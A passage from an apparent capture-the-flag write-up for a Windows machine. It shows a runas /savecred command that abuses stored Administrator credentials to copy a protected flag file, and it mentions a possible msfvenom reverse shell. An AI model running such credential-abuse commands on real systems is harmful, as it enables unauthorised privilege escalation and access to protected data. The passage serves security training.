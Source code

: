 It's a bit difficult to read, but it looks like the shortcut runs a program as the `Administrator` using saved credentials. We can use that.

```posh
C:\Users\Public\Desktop>runas /user:Administrator /savecred "cmd.exe /c more C:\Users\Administrator\Desktop\root.txt > C:\Users\Public\Desktop\output.txt"
```

Did it work?

```posh
C:\Users\Public\Desktop>more output.txt
<SNIP>
```

Yes! From there we could generate a reverse shell using `msfvenom` and run that as `Administrator`, but I've got the flag so I'll leave it there for now.
